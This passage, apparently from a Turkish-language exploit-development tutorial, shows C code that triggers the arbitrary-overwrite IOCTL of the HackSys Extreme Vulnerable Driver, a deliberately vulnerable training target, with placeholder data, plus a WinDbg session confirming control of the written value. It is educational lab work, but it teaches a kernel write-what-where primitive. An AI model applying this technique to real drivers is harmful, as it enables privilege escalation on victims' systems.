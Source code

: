 ```c
	if(hDeviceHandle == INVALID_HANDLE_VALUE)
	{
		printf("Surucuye tutamak alamiyoruz?!\n");
		goto RETURN;
	}

	printf("Hop, tutamak geldi : %p\n", hDeviceHandle);

	//
	// Sahte verimizi ayarla
	// NOT: Hedef sistem 64 bit, uygulama ise 32 bit
	//
	Veri[0] = 0x4242424242424242;
	Veri[1] = 0x4343434343434343;

	//
	// Hadi (b)akalım :P
	//
	Result = DeviceIoControl(
		hDeviceHandle,
		HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE,
		&Veri,
		sizeof(Veri),
		NULL,
		0,
		&Retval,
		NULL);

    printf("Evet, emaneti yolladik! Sonuc : %d\n", Result);

RETURN:

	if(hDeviceHandle)
	{
		CloseHandle(hDeviceHandle);
	}

    return 0;
}
```

Doğrulamak için hata ayıklayıcıda `HEVD!TriggerArbitraryOverwrite+0x27` adresine bir durma noktası koyuyorum. Devamında uygulamayı çalıştırıyorum. Durma noktasına çarptığında `r12` yazmacında gönderdiğim veri olacak. Bakalım beklediğimiz şey geldi mi?

```
kd> g
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
Breakpoint 0 hit
HEVD!TriggerArbitraryOverwrite+0x27:
fffff880`03398b9b 498b1c24        mov     rbx,qword ptr [r12]
kd> r
rax=000007ffffff0000 rbx=fffffa8303b25ee0 rcx=00000000002cfd40
rdx=00000000002cfd50 rsi=0000000000000000 rdi=fffffa8303b25fb0
rip=fffff88003398b9b rsp=fffff88004166780 rbp=fffffa8303798f20
 r8=0000000000000007  r9=0000000000000003 r10=0000000000000000
r11=fffff88004166400 r12=00000000002cfd40 r13=0000000000000000
r14=0000000000000010 r15=fffffa8303b25f01
iopl=0         nv up ei ng nz na po nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00000286
HEVD!TriggerArbitraryOverwrite+0x27:
fffff880`03398b9b 498b1c24        mov     rbx,qword ptr [r12] ds:002b:00000000`002cfd40=4242424242424242
kd> dq r12
```

[^1]: Sistemdeki önemli veri yapılarını korumakla görevli bir mekanizma.